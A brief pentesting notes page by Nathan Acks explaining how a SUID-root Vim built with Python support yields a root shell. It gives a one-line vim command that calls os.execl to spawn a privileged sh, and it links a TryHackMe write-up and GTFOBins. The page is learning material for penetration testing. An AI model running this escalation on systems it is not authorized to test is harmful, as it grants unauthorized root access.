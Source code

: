 # Exploiting ViM

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

## References

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 4, 2021
